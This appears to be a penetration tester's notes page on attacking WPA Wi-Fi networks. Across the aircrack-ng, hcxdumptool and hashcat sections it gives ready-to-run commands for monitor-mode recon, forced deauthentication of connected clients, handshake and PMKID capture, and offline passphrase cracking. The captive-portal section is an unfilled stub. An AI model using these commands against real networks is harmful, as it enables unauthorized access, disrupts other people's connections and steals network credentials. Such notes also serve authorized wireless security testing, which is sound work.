 # Wireless

## Tools

* [Aircrack](https://github.com/aircrack-ng/aircrack-ng) - Main tool for recon and grabbing handshakes
* [Hcxdumptool](https://github.com/ZerBea/hcxdumptool) - Main tool for obtaining PMKID and EAPOL M1M2M3 or EAPOL M1M2M3M4 auth
* [Hcxtools](https://github.com/ZerBea/hcxtools) - Used to converting .cap, .pcap, and .pcapng files into a hashcat readable format.
* [Hashcat](https://github.com/hashcat/hashcat) - For cracking hashes

***

## Handshake/PMKID

### Aircrack

Verify the interface `wlan0` is up and ready

```shell-session
iwconfig
```

Put interface into monitor mode

```shell-session
sudo airmon-ng start wlan0
```

Start Scanning and performing recon, Taking note of: The channel #. This is needed if there is only one AP on the single channel. If there are multiple under different channel, this is not needed. The AUTH section. PSK(Pre-shared key) means we can obtain a handshake for offline cracking. MGT means it is configured for WPA-Enterprise The Stations below to see if any clients are connected to our target. This may not 100% show all connected clients.

```shell-session
sudo airodump-ng wlan0mon
```

\*For 5GHz networks

```
sudo airodump-ng wlan1mon -b a
```

\*For all networks (2.5GHz and 5GHz) - Note this can take longer as it sniffs multiple bands.

```
sudo airodump-ng wlan1mon -b abg
```

Focus on Targe ESSID(s) and save to a file (be sure to add the band with `-b` if sniffing on on 5GHz or both)

```shell-session
sudo airodump-ng wlan0mon -c CH# --essid "SSID" -w outfile
```

Obtain handshake - either wait for someone to connet to the AP from their device OR force a deauth. Using a second terminal window/tab: To deauth anything from the network

```shell-session
sudo aireplay-ng -0 10 -a BSSID wlan0mon
```

If we choose a client to deauth it will be the same but with the client MAC(station)

```shell-session
sudo aireplay-ng -0 10 -a BSSID -c STATION wlan0mon
```

We can see if a Handshake obtained by checking the top right of our airodump screen&#x20;

Once we have our handshake, we can stop airodump with `ctrl+c`.

***

### HCXDumptool

This may depends on which version you have installed. Eg. v6.2.9 has a different interface than v6.3.0+. I'll be going with the most up to date (currently v.6.3.5)

**This attack is not guaranteed!!**. Not all access points(APs) are vulnerable to the PMKID attack, BUT this can still obtain us EAPOL M1M2M3 or EAPOL M1M2M3M4 auths.

#### Legend

* R = + AP display : AP is in TX range or under attack
* 1 = + AP display : got EAPOL M1 (CHALLENGE)
* 3 = + AP display : got EAPOL M1M2M3 or EAPOL M1M2M3M4 (AUTHORIZATION) - hashcat / JtR can work on
* P = + AP display : got PMKID - hashcat / JtR can work on
* S = + AP display : AUTHENTICATION KEY MANAGEMENT PSK

***

* E = + CLIENT display : got EAP-START MESSAGE
* 2 = + CLIENT display : got EAPOL M1M2 (ROGUE CHALLENGE) - hashcat / JtR can work on

#### Scan for PMKID

Put interface into monitor mode

```shell-session
sudo airmon-ng start wlan0
```

Find the BSSID of our target with some recon using airodump

```shell-session
sudo airodump-ng wlan0mon
```

Once we have the BSSID, put it into a Berkeley Packet Filter (BPF) `.bpf` file.

```shell-session
tcpdump -s 65535 -y IEEE802_11_RADIO wlan addr3 BSSID -ddd > SSID.bpf

OR

hcxdumptool --bpfc="wlan addr3 BSSID" > SSID.bpf
```

\*\* NOTE: We can attack multiple APs with:

```
tcpdump -s 65535 -y IEEE802_11_RADIO wlan addr3 BSSID or wlan addr3 BSSID2 -ddd > SSID.bpf

OR

hcxdumptool --bpfc="wlan addr3 BSSID1 or wlan addr3 BSSID2" > SSID.bpf
```

```shell-session
sudo hcxdumptool --rds=1 -F --bpf=SSID.bpf -i wlan0mon -w outfile.pcapng
```

After a while we may see the + under the 3 or P of our target. Both of which can be used to obain the password with hashcat. (Unable to get a PMKID in the demo environment sadly.)

When we see the + under the 3 or P of our target, stop hcxdumptool with `ctrl+c`

***

### Crack it with hashcat

Convert the file to a hashcat format. The output will look the same regardless of which file extensiton it is.

* .cap file converstion to Hashcat format.

```shell-session
sudo hcxpcapngtool -o SSIDHash outfile.cap
```

* .pcapng file conversion to hashcat format

```shell-session
sudo hcxpcapngtool -o SSIDHash outfile.pcapng
```

Use hashcat with mode 22000 and a wordlist. **Try different wordlists and rules.**

```shell-session
sudo hashcat -m 22000 SSIDHash wordlist
```

We can also run the above command with `--show` to show the password.

```shell-session
sudo hashcat -m 22000 SSIDHash wordlist --show
```

***

## Captive Portals

COMING SOON
